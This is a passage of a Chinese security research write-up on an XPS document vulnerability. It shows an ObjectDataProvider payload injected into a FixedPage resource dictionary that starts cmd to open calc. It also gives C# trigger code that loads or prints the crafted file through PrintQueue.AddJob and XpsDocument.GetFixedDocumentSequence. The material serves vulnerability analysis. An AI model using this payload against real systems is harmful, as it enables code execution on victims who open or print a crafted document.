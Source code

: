 5.2 FixedPage本地加载恶意载荷
---------------------

支持本地加载资源字典里的Payload，编辑 Documents/1/Pages/1.fpage 在&lt;FixedPage.Resources&gt;标记内注入 ObjectDataProvider对象

```php
<FixedPage.Resources>
    <ObjectDataProvider MethodName="Start" x:Key="obj">
            <ObjectDataProvider.ObjectInstance>
                <sd:Process>
                    <sd:Process.StartInfo>
                        <sd:ProcessStartInfo Arguments="/c calc" FileName="cmd" />
                    </sd:Process.StartInfo>
                </sd:Process>
            </ObjectDataProvider.ObjectInstance>
    </ObjectDataProvider>
    <ResourceDictionary>
        <ImageBrush x:Key="b0" ViewportUnits="Absolute" TileMode="None" ViewboxUnits="Absolute" Viewbox="0,0,756.481539065631,756.161538414588" Viewport="0,0,300,299.873096446701" ImageSource="/Resources/c43915ba-325a-4837-b320-23ab872e0814.png" />
    </ResourceDictionary>
</FixedPage.Resources>
```

5.3 PrintQueue.AddJob 触发点
-------------------------

PrintQueue 类表示一台打印机以及与其关联的输出作业队列， 允许对服务器的打印作业进行高级管理， AddJob 方法用于将新的打印作业插入队列。添加任务打印文档验证内容和进度通知时可触发此漏洞请求远程的xaml文件

```php
XPSDemo.App.Current.Dispatcher.Invoke((Action)(() =>
            {
                PrintQueue defaultPrintQueue = LocalPrintServer.GetDefaultPrintQueue();
                PrintSystemJobInfo xpsPrintJob = defaultPrintQueue.AddJob("test", @"createxps.xps", false);
            }
));
```

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/05/attach-65ce2c485c49b54f0abe0c2b2949d652827349e8.png)

5.4 XpsDocument.GetFixedDocumentSequence 触发点
--------------------------------------------

WPF里程序初始化打印对话框显示文档内容时可触发漏洞，将XPS文件加载到内存并在DocumentViewer容器中显示，如下代码提供GetFixedDocumentSequence()方法返回文档根元素的引用

```php
XPSDemo.App.Current.Dispatcher.Invoke((Action)(() =>
            {
                XpsDocument myDoc = new XpsDocument(@"createxps.xps", FileAccess.Read);
                docView1.Document = myDoc.GetFixedDocumentSequence();
            }
));
```
